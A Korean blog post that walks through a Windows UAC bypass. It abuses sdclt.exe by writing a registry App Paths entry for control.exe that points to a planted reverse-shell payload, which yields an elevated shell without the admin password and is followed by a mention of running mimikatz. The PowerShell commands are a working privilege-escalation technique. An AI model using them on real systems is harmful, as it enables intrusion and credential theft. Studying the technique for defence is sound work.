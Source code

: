 ```yaml
---
layout: post
title: UAC bypass로 관리자 권한 쉘 열기
subtitle: UAC Bypass를 이용한 쉘 권한 높이기 
category: knowledge
thumbnail-img: /assets/img/knowledge/high.png
tags: [reverseshell, upgrade]
author: Hong
---
```

# 전제조건
윈도우에서 관리자 권한을 가진 유저의 쉘을 취득했을 경우.

GUI가 아니기 때문에 관리자 권한으로 쉘을 열 수 없는 경우. GUI의 경우 페이로드를 cmd.exe로 하면 간단하게 실행 된다.

관리자의 비밀번호를 모르는 경우.

현재 권한을 보면 **관리자 그룹에 들어있지만** 현재 터미널은 Medium Mandatory Level인 것을 알 수 있다.
![medium](/assets/img/knowledge/medium.png)
# sdclt.exe를 악용
sdclt.exe 파일은 윈도우 시스템에서 백업 및 복원을 담당하는 실행 파일이다.

이 실행 파일은 관리자 권한으로 실행되기 때문에 레지스트리의 값을 오염시켜서 원하는 파일을 실행시키는 것이 가능하다.

이번에는 미리 심어둔 리버스쉘 페이로드인 Monitoring Stat Updater1.exe 파일을 실행하도록 한다.

먼저 취득한 쉘에서 powershell 쉘을 사용한다.

다음 아래의 명령어들을 입력한다.

```powershell
[String]$program="C:\Users\Public\monitoring\Monitoring Stat Updater1.exe"
New-Item "HKCU:\Software\Microsoft\Windows\CurrentVersion\App Paths\control.exe" -Force
Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\App Paths\control.exe" -Name "(default)" -Value $program -Force

Start-Process "C:\Windows\System32\sdclt.exe" -WindowStyle Hidden # 이 명령어로 실행
```
HKCU 하위의 폴더에 새로운 레지스트리를 만든 후, 지정한 프로그램을 키 값으로 설정한다.

그리고 Start-Process로 sdclt.exe를 실행시키면 관리자 권한의 쉘이 얻어진다. 

이번에는 리버스쉘의 페이로드를 이용했기 때문에 관리자 권한 쉘을 얻었지만, 프로그램을 cmd.exe로 설정하면 터미널이 관리자 권한으로 열린다.

**GUI에서는 cmd 창이 새로 열리기 때문에 문제없지만**, 원격으로 CLI을 베이스로 통신하고 있기 때문에 리버스쉘의 페이로드를 사용했다.
# GUI의 경우
GUI의 경우에는 관리자 권한으로 실행을 클릭하면 관리자의 비밀번호를 입력하라는 팝업창이 뜨게 된다.

리버스쉘로 쉘은 얻었지만 **관리자의 비밀번호를 모르는 상황**이기 때문에 관리자 권한의 터미널을 사용할 수가 없다.

이때 UAC 바이패스의 페이로드를 cmd.exe로 설정하면 비밀번호를 묻는 팝업 없이 바로 관리자 권한의 터미널이 새로운 창으로 열리게 된다.
# 실행 결과
리버스쉘을 받기위한 포트를 리스닝 상태로 두고 위의 순서대로 UAC bypass를 실행하면 새로운 리버스쉘이 열리게 된다.
![high](/assets/img/knowledge/high.png)
권한을 확인하면 아까와는 다르게 High Mandatory Level이 되어있는 것을 알 수 있다.

그렇기 때문에 이제 mimikatz의 실행이 가능해진다.